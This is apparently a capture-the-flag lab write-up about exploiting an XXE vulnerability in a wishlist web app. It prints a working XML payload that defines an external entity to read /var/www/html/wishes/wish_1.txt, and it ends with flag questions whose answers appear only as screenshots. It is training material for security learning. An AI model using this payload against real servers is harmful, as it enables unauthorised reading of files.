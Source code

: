 Objective is to leverage the XXE vulnerability on the website to read the contents and demonstrate the full extent of this flaw to help secure the platform.

Page is only accessible by admins - `/wishes/wish_1.txt` . From the URL, we can tell that the wish list might be save under a `.txt` file named wish in numerical order.

![05screenshot07](https://github.com/user-attachments/assets/8cec97e9-50a0-49ca-a700-6f94887dd850)

Using this path, we need to guess the potential absolute path of the file. Typically web applications are hosted on `/var/www/html`.  *(Note: Not all web applications use the path `/var/www/html` but web servers typically use it.)*

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```

New payload being sent as a repeater.

![05screenshot08](https://github.com/user-attachments/assets/f1893dd4-9452-4849-afbc-1e1adafad464)

Results of `wish_1.txt`

1. What is the flag discovered after navigating through the wishes?
    
![qna01](https://github.com/user-attachments/assets/2cc00d92-d09d-4ee0-8aec-cf7f53c741f2)

    
2. What is the flag seen on the possible proof of sabotage?
        
![qna02](https://github.com/user-attachments/assets/8d13962c-a086-4ce7-8938-da4e54082700)

![qna03](https://github.com/user-attachments/assets/b7a0cf80-ea52-46cc-b089-9bdc7914fff5)
        
 If a particular file does not exist, will just put `Failed to parse XML`
